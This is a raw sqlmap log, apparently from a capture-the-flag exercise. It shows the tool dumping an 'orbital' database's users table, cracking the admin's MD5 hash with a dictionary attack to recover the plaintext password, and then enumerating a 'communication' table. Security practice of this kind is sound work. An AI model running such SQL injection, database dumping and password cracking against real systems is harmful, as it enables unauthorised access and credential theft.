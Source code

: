 ```
[19:27:46] [INFO] retrieved: 'password'
[19:27:46] [INFO] retrieved: 'varchar(255)'
[19:27:46] [INFO] fetching entries for table 'users' in database 'orbital'
[19:27:46] [INFO] retrieved: '1'
[19:27:47] [INFO] retrieved: '1692b753c031f2905b89e7258dbc49bb'
[19:27:47] [INFO] retrieved: 'admin'
[19:27:47] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[19:28:10] [INFO] writing hashes to a temporary file '/tmp/sqlmapxmrfdr0m9619/sqlmaphashes-xvcfw_me.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[19:28:13] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[19:28:17] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[19:28:23] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[19:28:23] [INFO] starting 2 processes 
[19:28:33] [INFO] cracked password 'ichliebedich' for user 'admin'                                                                                                                                                                        
Database: orbital                                                                                                                                                                                                                         
Table: users
[1 entry]
+----+-------------------------------------------------+----------+
| id | password                                        | username |
+----+-------------------------------------------------+----------+
| 1  | 1692b753c031f2905b89e7258dbc49bb (ichliebedich) | admin    |
+----+-------------------------------------------------+----------+

[19:28:55] [INFO] table 'orbital.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/68.183.45.143/dump/orbital/users.csv'
[19:28:55] [INFO] fetching columns for table 'communication' in database 'orbital'
[19:28:55] [INFO] retrieved: 'id'
[19:28:55] [INFO] retrieved: 'int(11)'
[19:28:55] [INFO] retrieved: 'source'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'destination'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'name'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'downloadable'
[19:28:57] [INFO] retrieved: 'varchar(255)'
[19:28:57] [INFO] fetching entries for table 'communication' in database 'orbital'
[19:28:57] [INFO] retrieved: 'Arcturus'
[19:28:57] [INFO] retrieved: 'communication.mp3'
[19:28:57] [INFO] retrieved: '1'
[19:28:57] [INFO] retrieved: 'Ice World Calling Red Giant'
[19:28:57] [INFO] retrieved: 'Titan'
[19:28:58] [INFO] retrieved: 'Vega'
[19:28:58] [INFO] retrieved: 'communication.mp3'
[19:28:58] [INFO] retrieved: '2'
[19:28:58] [INFO] retrieved: 'Spiral Arm Salutations'
[19:28:58] [INFO] retrieved: 'Andromeda'
[19:28:58] [INFO] retrieved: 'Trappist-1'
[19:28:58] [INFO] retrieved: 'communication.mp3'
[19:28:59] [INFO] retrieved: '3'
```